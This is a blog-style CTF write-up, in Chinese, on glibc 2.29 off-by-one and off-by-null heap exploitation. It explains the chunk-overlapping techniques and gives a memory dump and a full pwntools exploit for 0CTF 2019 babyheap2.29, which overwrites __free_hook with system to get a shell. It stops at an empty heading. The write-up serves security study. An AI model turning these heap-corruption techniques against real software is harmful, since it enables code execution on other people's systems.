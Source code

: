 ```yaml
---
clayout: post
title:  "glibc2.29-off by one"
date:   2020-2-19
desc: ""
keywords: ""
categories: [Binary]
tags: [pwn]
icon: icon-html
---
```


#glibc2.29-off by one

## glibc2.29 unlink

```c
/* consolidate backward */
if (!prev_inuse(p)) {
  prevsize = prev_size (p);
  size += prevsize;
  p = chunk_at_offset(p, -((long) prevsize));
  if (__glibc_unlikely (chunksize(p) != prevsize))
    malloc_printerr ("corrupted size vs. prev_size while consolidating");
  unlink_chunk (av, p);
}
```
相比2.27，新增

```c
  if (__glibc_unlikely (chunksize(p) != prevsize))
    malloc_printerr ("corrupted size vs. prev_size while consolidating");
```

在2.27中，off by null有一种overlapping方法

1. malloc A B C，freeA，A进unsorted bin
2. 在B中伪造C的prev_size，off by null覆盖C的prev_inuse
3. free C，A、B、C unlink
4. malloc，把A、B、C取回来，之前的B并没有free，就得到了两个B

在第三步，根据C的prev_size找到A，然后直接unlink

在2.29中，新增了对size的检查，第三步，根据C的prev_size找到A，然后检查A的size和prev_size是否相等，不相等直接gg，如果👴想像2.27一样overlapping，👴还需要去伪造A的size

## 解决方案

### off by one

众所周知off by one比off by null白给，如果是off by one，👴就能在A前面的chunk中off by one改A的size

1. malloc X A B C，freeA，A进unsorted bin
2. 在X中off by one改Asize
3. 在B中伪造C的prev_size，off by one把C prev_inuse改成0
4. free C，A、B、C unlink
5. malloc，把A、B、C取回来，得到两个B

### off by null

伪造一个unsorted bin，再伪造prev_size，unlink时根据prev_size找到伪造的chunk，过check

伪造unsorted bin时fd和bk指向自己，fd->bk = bk->fd = p，这种方法需要堆地址白给

1. malloc A B C
2. 在A中伪造fake chunk，size和将要伪造的prev_size相同，fd和bk都指向自己
3. 在B中伪造C的prev_size，off by one把C prev_inuse改成0
4. free C，fake chunk、B、C unlink
5. malloc，把fake chunk、B、C 取回来，得到两个B

#### 0CTF2019 Final babyheap2.29

edit存在off by null

add和edit分开，可以add free add show泄露heap和libc

伪造

```c
pwndbg> x/128gx 0x555555559f50
0x555555559f50:	0x0000000000000000	0x0000000000000101//10
0x555555559f60:	0x0000000000000000	0x00000000000001f1//fake
0x555555559f70:	0x0000555555559f60	0x0000555555559f60//fake_fd fake_bk
0x555555559f80:	0x0000000000000000	0x0000000000000000
0x555555559f90:	0x0000000000000000	0x0000000000000000
0x555555559fa0:	0x0000000000000000	0x0000000000000000
0x555555559fb0:	0x0000000000000000	0x0000000000000000
0x555555559fc0:	0x0000000000000000	0x0000000000000000
0x555555559fd0:	0x0000000000000000	0x0000000000000000
0x555555559fe0:	0x0000000000000000	0x0000000000000000
0x555555559ff0:	0x0000000000000000	0x0000000000000000
0x55555555a000:	0x0000000000000000	0x0000000000000000
0x55555555a010:	0x0000000000000000	0x0000000000000000
0x55555555a020:	0x0000000000000000	0x0000000000000000
0x55555555a030:	0x0000000000000000	0x0000000000000000
0x55555555a040:	0x0000000000000000	0x0000000000000000
0x55555555a050:	0x0000000000000000	0x0000000000000101//11
0x55555555a060:	0x6161616161616161	0x6161616161616161
0x55555555a070:	0x6161616161616161	0x6161616161616161
0x55555555a080:	0x6161616161616161	0x6161616161616161
0x55555555a090:	0x6161616161616161	0x6161616161616161
0x55555555a0a0:	0x6161616161616161	0x6161616161616161
0x55555555a0b0:	0x6161616161616161	0x6161616161616161
0x55555555a0c0:	0x6161616161616161	0x6161616161616161
0x55555555a0d0:	0x6161616161616161	0x6161616161616161
0x55555555a0e0:	0x6161616161616161	0x6161616161616161
0x55555555a0f0:	0x6161616161616161	0x6161616161616161
0x55555555a100:	0x6161616161616161	0x6161616161616161
0x55555555a110:	0x6161616161616161	0x6161616161616161
0x55555555a120:	0x6161616161616161	0x6161616161616161
0x55555555a130:	0x6161616161616161	0x6161616161616161
0x55555555a140:	0x6161616161616161	0x6161616161616161
0x55555555a150:	0x00000000000001f0	0x0000000000000100//12
0x55555555a160:	0x0000000000000000	0x0000000000000000
0x55555555a170:	0x0000000000000000	0x0000000000000000
0x55555555a180:	0x0000000000000000	0x0000000000000000
0x55555555a190:	0x0000000000000000	0x0000000000000000
//0x55555555a150 - 0x1f0 = 0x555555559f60
```

overlapping，uaf，改fd打free_hook

```python
from pwn import *

r = process('./babyheap2.29')
elf = ELF('./babyheap2.29')
libc = ELF('libc-2.29.so')

def add(size):
    r.sendlineafter('Command: ','1')
    r.sendlineafter('Size: ',str(size))

def edit(index,content):
    r.sendlineafter('Command: ','2')
    r.sendlineafter('Index: ',str(index))
    r.sendlineafter('Size: ',str(len(content)))
    r.sendafter('Content: ',content)

def free(index):
    r.sendlineafter('Command: ','3')
    r.sendlineafter('Index: ',str(index))

def show(index):
    r.sendlineafter('Command: ','4')
    r.sendlineafter('Index: ',str(index))


add(0x500)
add(0x40)
free(0)
add(0x500)
show(0)
r.recvuntil(']: ')
leak = u64(r.recvuntil('\n',drop=True).ljust(8, '\x00'))
libc_base = leak - 0x1e4ca0
log.success(hex(libc_base))

add(0x40)
add(0x40)
free(1)
free(2)
add(0x40)#1
show(1)
r.recvuntil(']: ')
heap_base = u64(r.recvuntil('\n',drop=True).ljust(8, '\x00'))-0x770
log.success(hex(heap_base))


for i in range(13):
  add(0xf8)

free(2)
for i in range(4,10):
  free(i)


edit(11,'a'*0xf0 + p64(0x1f0))

fake = p64(0x0)+p64(0x1f1)+p64(heap_base+0xf60)+p64(heap_base+0xf60)
edit(10,fake)
r.interactive()

free(12)
add(0xe8)
for i in range(7):
    add(0xf8)
    log.info(r.recvline())
free(1)
add(0xf8)#1


free_hook = libc_base + libc.sym['__free_hook']
system = libc_base + libc.sym['system']

log.success(hex(free_hook))
free(4)
free(5)
free(6)

free(11)
edit(1,p64(free_hook))
add(0xf8)
add(0xf8)#5
log.info(r.recvline())
edit(5,p64(system))
edit(7,'/bin/sh\x00')
free(7)
r.interactive()

```



### 无堆地址泄露off by null

large bin残留指针+heap fengshui

1. 在large bin上取出来一个A，此时有A B C，准备在A中构造fake chunk，fake chunk地址为A+0x10，在B中off by null，fake chunk、B、C unlink
2. 在A构造fake chunk，A的bk为size，部分覆盖A的fd_nextsize，使其指向一个bk可控的chunk X
3. 部分覆盖chunk X的bk，使其指向fake chunk
4. A的bk_nextsize没有修改，指向A，需要使A的fd指向fake chunk，利用fast bin的链表特性使A的fd指向A+0x10
5. 此时fake->fd->bk = fake->bk->fd = fake，free C，unlink

### Balsn CTF 2019 PlainNote